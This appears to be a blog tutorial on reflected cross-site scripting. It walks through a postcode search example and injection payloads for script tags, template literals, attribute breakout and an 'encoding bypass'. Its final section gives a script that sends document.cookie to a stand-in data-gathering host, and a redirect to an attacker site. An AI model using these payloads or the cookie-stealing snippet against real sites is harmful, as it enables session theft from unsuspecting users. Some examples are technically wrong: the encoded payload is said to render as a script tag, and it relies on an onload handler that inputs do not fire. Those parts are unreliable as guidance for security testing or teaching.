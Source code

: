 ```yaml
---
layout: post
title: Reflected Cross Site Scripting
image: /assets/img/xss/cover.png
readtime: 5 minutes
---
```


Cross Site Scripting (XSS) attacks are a type of injection attack, where scripts are injected into a tusted website application. There are sub categories of XSS attack, which work very differently.
Generally, an XSS attack is performed using a browser side script, with the intent to run on a different users session. 

The intent of an XSS attack is to steal cookies, session tokens, or other sensitive information and divert this information to somewhere not intended.
More information can be found on the OWASP website: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)


The three main types of attacks are Reflected, Stored and DOM based. This post is going to talk specifically about Reflected.


### Relected XSS

<amp-img src="/assets/img/xss/reflected.jpg"
  width="1280"
  height="720"
  layout="responsive">
</amp-img>


Reflected is  performed by constructing a a URL, which will reflect some kind of content back onto the page.

An example of this would be something like a site which searches for a postcode. You end up with a url like:

```
https://my-website.com/?post-code=SK22
```

Depending on how the website was written, the developer may have reflected query parameters back onto the page, to display in a section such as ' You searched for SK22'

If the query string parameter is not encoded correctly, this can lead to passing unintended information such as:

```
https://my-website.com/?post-code=<script>alert(1)</script>
```

When this is reflected onto the page, the javascript is evaluated and executed.


<amp-img src="/assets/img/xss/popup.png"
  width="928"
  height="296"
  layout="responsive">
</amp-img>


The attacker is then able to send this link to an unsuspecting user, and using certain techniques, can steal the users data.

Most UI frameworks will contain some kind of protection from this kind of attack, although it is still possible to bypass some frameworks using clever techniques.

### Injecting using interpolation syntax

Sometimes content can be interpolated using a framework, and it is common for these to use the grave accent when interpolating content.

You can feed into this by doing something similar to this:

```
?postcode=sk22`${alert(1)}` 
```

Since the interpolation is evaluated, it will run any javascript code within the block.

### Injecting and breaking the DOM

Similar to sql injection attacks, you can interupt the rendered DOM.

Sometimes you can break out of DOM elements and interupt the DOM by adding events, for example.

Imagine my application takes the query string parameter `?postcode=sk22` and renders this on the page as:

```
<input type="text" name="postcode" value="sk22">
```

Sometimes it is possible to break out, by doing something like `?postcode=sk22"+onload=alert(1)`

Which will render something similar to:

```
<input type="text" name="postcode" value="sk22" onload=alert(1)>
```

Sometimes you will need to add a comment at the end (similar to sql injection) to make sure the application ignores any breakages within the DOM.

### Bypassing html encoding.

There are other techniques you can use where you can bypass filters put in by developers to try and sanitise input.

You can use html encoding and other techniques to get through filters but still render valid html.

For example, Imagine my application takes the query string parameter `?postcode=sk22` and renders this on the page as:

```
<span>sk22</span>
```

If you encode the content, with something like: `?postcode=sk22&apos;alert(1)&apos;

Which will render something similar to:

```
<span>sk22<script>alert(1)</script></span>
```

### How you may use this in a not so nice way


<amp-img src="/assets/img/xss/cookies.png"
  width="1290"
  height="380"
  layout="responsive">
</amp-img>

Example of scripts you could use for stealing cookie information:

```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'https://my-data-gathering-site.com/?cookies=' + document.cookie , true);
xhttp.send();
```

Example of redirecting a user to a page under attackers control:

```
window.location.href='https://my-hacker-website.com/'
```